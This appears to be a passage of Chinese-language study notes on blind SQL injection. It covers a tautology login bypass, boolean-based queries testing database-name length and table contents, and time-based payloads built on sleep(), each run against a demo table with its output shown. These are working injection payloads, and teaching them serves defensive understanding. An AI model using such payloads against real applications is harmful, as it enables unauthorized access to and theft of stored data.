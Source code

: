 服务器根据sql语句的执行结果返回`success`或者是`fail`,通过构造语句利用服务器的返回值来判断数据是否符合预期

`select * from user where username='$username'`

`select * from user where username='$username' or 1#`构造永真条件,无论输入的用户名是什么都会返回`success`

```
select * from table3 where id='1' and length(database())>1
+----+------+
| id | info |
+----+------+
| 1  | a    |
+----+------+
1 row in set
Time: 0.008s
select * from table3 where id='1' and length(database())<1
+----+------+
| id | info |
+----+------+
0 rows in set
Time: 0.011s
```

```
select * from table3 where id='1' and mid((select group_concat(info) from table3),1,1)<50
+----+------+
| id | info |
+----+------+
| 1  | a    |
+----+------+
1 row in set
Time: 0.008s
select * from table3 where id='1' and mid((select group_concat(info) from table3),1,1)>50
+----+------+
| id | info |
+----+------+
0 rows in set
Time: 0.010s
```

## 延时注入

构造延时注入语句,根据服务器响应时间判断数据是否符合预期,常用于盲注

1. sleep

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201212353818.png)

`select * from table3 where id='1' and if (length(database())>5,sleep(5),1)#`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201212355619.png)

`select * from table3 where id='1' and if (ascii(substr((select group_concat(info) from table3),1,1))>50,sleep(5),1)#`
